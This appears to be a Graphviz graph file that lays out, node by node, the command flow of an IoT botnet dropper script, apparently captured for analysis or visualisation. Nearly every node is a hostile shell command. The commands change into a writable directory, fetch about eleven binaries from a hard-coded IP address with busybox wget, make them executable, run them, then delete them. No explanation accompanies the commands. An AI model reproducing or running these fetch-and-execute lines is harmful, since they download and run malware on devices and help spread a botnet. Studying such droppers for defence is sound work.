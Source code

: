 digraph {
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 10 [label="||,"];
10 [label="/bin/busybox wget http://213.183.53.120/rwfwff "];
10 -> 12 [label=";,"];
12 [label="wget http://213.183.53.120/rwfwff "];
12 -> 14 [label=";,"];
14 [label="chmod +x rwfwff "];
14 -> 16 [label=";,"];
16 [label="./rwfwff "];
16 -> 18 [label=";,"];
18 [label="rm -rf rwfwff "];
18 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 30 [label="||,"];
30 [label="/bin/busybox wget http://213.183.53.120/fwcwcc "];
30 -> 32 [label=";,"];
32 [label="wget http://213.183.53.120/fwcwcc "];
32 -> 34 [label=";,"];
34 [label="chmod +x fwcwcc "];
34 -> 36 [label=";,"];
36 [label="./fwcwcc "];
36 -> 38 [label=";,"];
38 [label="rm -rf fwcwcc "];
38 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 50 [label="||,"];
50 [label="/bin/busybox wget http://213.183.53.120/tdgeew "];
50 -> 52 [label=";,"];
52 [label="wget http://213.183.53.120/tdgeew "];
52 -> 54 [label=";,"];
54 [label="chmod +x tdgeew "];
54 -> 56 [label=";,"];
56 [label="./tdgeew "];
56 -> 58 [label=";,"];
58 [label="rm -rf tdgeew "];
58 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 70 [label="||,"];
70 [label="/bin/busybox wget http://213.183.53.120/ceewfw "];
70 -> 72 [label=";,"];
72 [label="wget http://213.183.53.120/ceewfw "];
72 -> 74 [label=";,"];
74 [label="chmod +x ceewfw "];
74 -> 76 [label=";,"];
76 [label="./ceewfw "];
76 -> 78 [label=";,"];
78 [label="rm -rf ceewfw "];
78 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 90 [label="||,"];
90 [label="/bin/busybox wget http://213.183.53.120/ffweef "];
90 -> 92 [label=";,"];
92 [label="wget http://213.183.53.120/ffweef "];
92 -> 94 [label=";,"];
94 [label="chmod +x ffweef "];
94 -> 96 [label=";,"];
96 [label="./ffweef "];
96 -> 98 [label=";,"];
98 [label="rm -rf ffweef "];
98 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 110 [label="||,"];
110 [label="/bin/busybox wget http://213.183.53.120/kfowef "];
110 -> 112 [label=";,"];
112 [label="wget http://213.183.53.120/kfowef "];
112 -> 114 [label=";,"];
114 [label="chmod +x kfowef "];
114 -> 116 [label=";,"];
116 [label="./kfowef "];
116 -> 118 [label=";,"];
118 [label="rm -rf kfowef "];
118 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 130 [label="||,"];
130 [label="/bin/busybox wget http://213.183.53.120/dwqdqq "];
130 -> 132 [label=";,"];
132 [label="wget http://213.183.53.120/dwqdqq "];
132 -> 134 [label=";,"];
134 [label="chmod +x dwqdqq "];
134 -> 136 [label=";,"];
136 [label="./dwqdqq "];
136 -> 138 [label=";,"];
138 [label="rm -rf dwqdqq "];
138 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 150 [label="||,"];
150 [label="/bin/busybox wget http://213.183.53.120/wweccc "];
150 -> 152 [label=";,"];
152 [label="wget http://213.183.53.120/wweccc "];
152 -> 154 [label=";,"];
154 [label="chmod +x wweccc "];
154 -> 156 [label=";,"];
156 [label="./wweccc "];
156 -> 158 [label=";,"];
158 [label="rm -rf wweccc "];
158 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 170 [label="||,"];
170 [label="/bin/busybox wget http://213.183.53.120/kfcedd "];
170 -> 172 [label=";,"];
172 [label="wget http://213.183.53.120/kfcedd "];
172 -> 174 [label=";,"];
174 [label="chmod +x kfcedd "];
174 -> 176 [label=";,"];
176 [label="./kfcedd "];
176 -> 178 [label=";,"];
178 [label="rm -rf kfcedd "];
178 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 190 [label="||,"];
190 [label="/bin/busybox wget http://213.183.53.120/cocain "];
190 -> 192 [label=";,"];
192 [label="wget http://213.183.53.120/cocain "];
192 -> 194 [label=";,"];
194 [label="chmod +x cocain "];
194 -> 196 [label=";,"];
196 [label="./cocain "];
196 -> 198 [label=";,"];
198 [label="rm -rf cocain "];
198 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 210 [label="||,"];
210 [label="/bin/busybox wget http://213.183.53.120/analsx "];
210 -> 212 [label=";,"];
212 [label="wget http://213.183.53.120/analsx "];
212 -> 214 [label=";,"];
214 [label="chmod +x analsx "];
214 -> 216 [label=";,"];
216 [label="./analsx "];
216 -> 217 [label=";,"];
}
